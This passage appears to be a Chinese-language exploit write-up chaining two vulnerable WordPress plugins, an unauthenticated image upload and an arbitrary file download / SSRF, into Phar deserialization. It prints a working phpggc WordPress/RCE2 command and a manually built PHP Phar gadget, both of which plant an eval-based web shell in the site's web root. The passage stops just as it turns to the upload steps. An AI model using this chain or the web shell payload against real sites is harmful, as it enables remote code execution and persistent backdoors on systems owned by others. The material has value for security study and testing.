 WordPress 版本 6.4.1

Drag and Drop Multiple File Upload 插件, 版本 1.3.6.2, 存在存储型 XSS, **本质是可以未授权上传图片**

All-in-One Video Gallery Plugin 插件, 版本 2.6.0, 存在未授权任意文件下载 / SSRF

上传图片 -> 上传 Phar

任意文件下载 / SSRF -> 触发 Phar 反序列化

https://wpscan.com/vulnerability/1b849957-eaca-47ea-8f84-23a3a98cc8de/

https://wpscan.com/vulnerability/852c257c-929a-4e4e-b85e-064f8dadd994/

https://github.com/projectdiscovery/nuclei-templates/blob/6a2bab060d150921b007f17e549dd05ff9dae0cf/http/cves/2022/CVE-2022-2633.yaml

利用 phpggc 的 WordPress/RCE2 Gadget 构造 Phar

```Bash
./phpggc WordPress/RCE2 system "echo '<?=eval(\$_POST[1]);?>' > /var/www/html/shell.php" -p phar -o ~/payload.phar
```

当然手动构造也行

```PHP
<?php
namespace 
{
    class WP_HTML_Token 
    {
        public $bookmark_name;
        public $on_destroy;
        
        public function __construct($bookmark_name, $on_destroy) 
        {
            $this->bookmark_name = $bookmark_name;
            $this->on_destroy = $on_destroy;
        }
    }

    $a = new WP_HTML_Token('echo \'<?=eval($_POST[1]);?>\' > /var/www/html/shell.php', 'system');

    $phar = new Phar("phar.phar"); 
    $phar->startBuffering();
    $phar->setStub("GIF89A<?php XXX __HALT_COMPILER(); ?>");
    $phar->setMetadata($a);
    $phar->addFromString("test.txt", "test");
    $phar->stopBuffering();
}
?>
```

因为部分版本的 burp 右键 Paste from file 功能存在一些编码问题, 会导致最终上传的二进制数据格式错误, 所以最好是本地构造一个 upload.html 浏览器选择文件然后抓上传包, 或者用 Python 写个脚本, 或者使用 Yakit

下文以 Yakit 为例
